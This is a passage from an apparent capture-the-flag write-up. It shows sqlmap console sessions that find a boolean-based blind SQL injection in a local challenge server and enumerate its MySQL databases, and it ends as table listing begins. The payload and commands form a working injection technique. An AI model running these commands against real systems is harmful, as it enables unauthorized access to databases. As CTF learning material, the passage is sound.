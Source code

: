 ```console
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://localhost:8000/? AND 5842=5842
---
[00:15:31] [INFO] testing MySQL
[00:15:32] [INFO] confirming MySQL
[00:15:34] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0
[00:15:34] [INFO] fetched data logged to text files under '/root/.sqlmap/output/localhost'

[*] shutting down at 00:15:34

root@kali:/media/sf_CTFs/tamu/Onboarding_Checklist# sqlmap -u "http://localhost:8000/?*" --dbms=MySQL --technique=B  --dbs
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.2.5#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 00:16:25

y
[00:16:30] [INFO] testing connection to the target URL
[00:16:30] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://localhost:8000/? AND 5842=5842
---
[00:16:30] [INFO] testing MySQL
[00:16:30] [INFO] confirming MySQL
[00:16:30] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0
[00:16:30] [INFO] fetching database names
[00:16:30] [INFO] fetching number of databases
[00:16:30] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[00:16:30] [INFO] retrieved: 2
[00:16:34] [INFO] retrieved: information_schema
[00:17:40] [INFO] retrieved: SqliDB
available databases [2]:
[*] information_schema
[*] SqliDB

[00:18:05] [INFO] fetched data logged to text files under '/root/.sqlmap/output/localhost'

[*] shutting down at 00:18:05




root@kali:/media/sf_CTFs/tamu/Onboarding_Checklist# sqlmap -u "http://localhost:8000/?*" --dbms=MySQL --technique=B  -D SqliDB --tables
        ___
```